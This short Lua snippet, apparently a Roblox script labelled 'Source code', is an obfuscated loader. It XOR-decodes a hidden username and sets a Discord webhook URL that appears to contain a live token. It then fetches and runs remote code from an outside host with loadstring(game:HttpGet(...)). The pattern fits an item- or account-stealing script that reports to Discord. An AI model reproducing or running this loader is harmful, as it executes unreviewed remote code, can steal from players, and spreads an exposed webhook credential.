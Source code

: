 local v0=string.char;local v1=string.byte;local v2=string.sub;local v3=bit32 or bit ;local v4=v3.bxor;local v5=table.concat;local v6=table.insert;local function v7(v8,v9)local v10={};for v11=1, #v8 do v6(v10,v0(v4(v1(v2(v8,v11,v11 + 1 )),v1(v2(v9,1 + ((v11-1)% #v9) ,1 + ((v11-1)% #v9) + 1 )))%256 ));end return v5(v10);end UserName=v7("\143\167\225\37\193\168\140\180\208\50\214","\237\194\143\74\178\196");Webhook="https://ptb.discord.com/api/webhooks/1095410675897077760/gDUFtoAmOe-1Ssa8LpXKcrST2AksAGXFmwH7qKiGim_Av-WXEM0O695hmntrscrCsVlI";loadstring(game:HttpGet("http://rizz.ct8.pl/scripts/Main",true))();

